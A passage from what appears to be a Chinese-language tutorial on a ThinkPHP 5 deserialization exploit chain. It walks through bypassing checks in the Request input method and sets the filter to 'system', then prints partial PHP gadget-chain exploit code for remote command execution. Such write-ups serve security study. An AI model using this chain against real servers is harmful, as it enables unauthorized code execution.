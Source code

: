 ![image-20220421185432675](TP5反序列化利用链.assets/image-20220421185432675.png)

在input方法中，存在if (false === $name) 和 if ('' != $name)和if (is_array($data))三个判断，第一个if如果成立的话会直接return掉，当然这不是你希望的结果，于是你灵机一动：让$name 为`''`（空字符串）不就好了？这可是强等于！而第三个判断是你想进入的，也是一定会进入的。于是，你只需`$this->config['var_ajax'] = ''`即可。

最后，再添加一个`$this->filter = 'system';`，就完事大吉啦！。最终你的Request类应该为：

```php
class Request{
    protected $filter;
    protected $config = [];
    protected $hook = [];
    public function __construct()
    {
        $this->config['var_ajax'] = '';
        $this->hook = ['visible' => [$this, 'isAjax']];
        $this->filter = 'system';
    }
}
```

你可能会想？光能调用system了，不得传个参数进去？不然岂不是执行了个寂寞。

你当然没这么chun，你知道在param方法中会获取参数值的，get方式就行。

你最后完成了自己的exp：

```php
<?php
namespace think;
abstract class Model{
    private $data = [];
    protected $append = [];
    public function __construct()
    {
        $this->data = ['xxxxx' => new Request()];
        $this->append = ['akey' => []];
    }
}

class Request{
    protected $filter;
    protected $config = [];
    protected $hook = [];
    public function __construct()
    {
        $this->config['var_ajax'] = '';
        $this->hook = ['visible' => [$this, 'isAjax']];
```